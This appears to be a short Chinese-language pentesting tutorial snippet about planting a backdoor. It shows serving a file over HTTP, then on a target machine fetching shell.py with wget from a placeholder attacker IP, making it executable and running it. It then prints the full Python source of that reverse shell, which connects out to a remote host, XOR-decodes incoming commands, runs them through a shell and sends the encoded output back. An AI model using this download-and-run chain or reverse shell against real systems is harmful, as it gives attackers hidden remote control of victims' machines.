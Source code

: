 假设有一个脚本`shell.py`,可以快速启用一个web服务:

```
$ python -m SimpleHTTPServer 8080
```

然后方便从其它机器获得该程序:

```
# Switch -O allows you to output to another directory - /tmp/ is often writable
$ wget -O /tmp/shell.py http://<attacker_ip>/shell.py

# Change permissions
$ chmod a+x /tmp/shell.py

# Always a good idea to make sure the file pulled over properly
$ file /tmp/shell.py

# Run the python shell
$ /usr/bin/python /tmp/shell.py
```

这样就在此机器上运行了一个程序，留了一个后门，看看后门程序`shell.py`:

```python
#!/usr/bin/python

import socket,subprocess,sys

RHOST = sys.argv[1]
RPORT = 443
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((RHOST, RPORT))

while True:
    # recieve XOR encoded data from network socket
    data = s.recv(1024)

    # XOR the data again with a '\x41' to get back to normal data
    en_data = bytearray(data)
    for i in range(len(en_data)):
        en_data[i] ^=0x41

    # Execute the decoded data as a command.  The subprocess module is great because we can PIPE STDOUT/STDERR/STDIN to a variable
    comm = subprocess.Popen(str(en_data), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
    STDOUT, STDERR = comm.communicate()

    # Encode the output and send to RHOST
    en_STDOUT = bytearray(STDOUT)
    for i in range(len(en_STDOUT)):
        en_STDOUT[i] ^=0x41

    s.send(en_STDOUT)
s.close()
```
